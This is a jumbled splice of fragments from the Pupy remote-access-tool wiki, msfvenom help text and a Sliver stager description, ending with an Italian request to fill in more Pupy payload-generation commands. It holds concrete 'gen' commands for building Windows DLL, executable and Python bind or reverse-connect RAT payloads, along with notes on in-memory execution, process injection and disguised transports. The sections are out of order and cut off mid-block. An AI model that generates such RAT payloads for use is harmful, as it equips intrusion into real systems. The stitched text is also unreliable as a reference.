 ```

To generate working payloads, you should have a complete comprehension of how things work. `transports`, `launchers`, `listeners` and `payloads` terms have to be understood before starting.  

## Transport
#[Pupy0](https://github.com/vecnathewhisperd/pupy0/wiki)
# High level overview

Three major components are required to use Pupy:
1. Management software (server side)
     - `pupysh`
2. Agent software (client side)
     - `pupy/payload_templates/*pupy*.*`
3. Python libraries for various OS/CPU combinations
     - `pupy/payload_templates/*OS*-*CPU*.zip`
## Payloads Generation

**Oneliners**: For one shot usage use `gen` command inside `pupysh`. Once you get the session back, kill the server using `CTRL-C`. If you want to let the server running non stop, use `pupygen.py` using exactly the same syntax as explained below.  

Payloads generation are done using the `gen` command.
```

## Payloads format

Payloads format represent the way to build our payload. Some are implemented and you should use one depending on the context and system you are targeting:
## Description

Pupy is a cross-platform, multi function RAT and post-exploitation tool mainly written in python. It features an all-in-memory execution guideline and leaves a very low footprint. Pupy can communicate using multiple transports, migrate into processes using reflective injection, and load remote python code, python packages and python C-extensions from memory.

## Features
```
>> gen -f <format> <launcher> -t <transport>
```
Here are some examples: 

- Windows dll
```
>> gen -S -f client -O windows -A x64 connect --host ip:port -t transport
```

- Windows executable
```
>> gen -f client -O windows -A x64 connect --host ip:port -t transport
```

- Python file - Bind
```
>> gen -f py bind --port port -t transport
```

- Python oneliner
```

# How to generate a payload

To generate a payload, there are two flags that you must supply (-p and -f):

* **The -p flag: Specifies what payload to generate**

To see what payloads are available from Framework, you can do:

```
./msfvenom -l payloads
```

The -p flag also supports "-" as a way to accept a custom payload:
## Transport

All transports in pupy are stackable. This mean that by creating a custom
transport conf (pupy/network/transport/<transport_name>/conf.py), you can make
you pupy session looks like anything. For example you could stack HTTP over
HTTP over base64 over HTTP over AES over obfs3 :o)
For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)

## Example
```
Options:
    -p, --payload       <payload>    Payload to use. Specify a '-' or stdin to use custom payloads
        --payload-options            List the payload's standard options
    -l, --list          [type]       List a module type. Options are: payloads, encoders, nops, all
    -n, --nopsled       <length>     Prepend a nopsled of [length] size on to the payload

Domanda: Generate some examples like this about payload generation with Pupy: '>> gen -f <format> <launcher> -t <transport>'. Please replace the placeholders with appropriate values.
```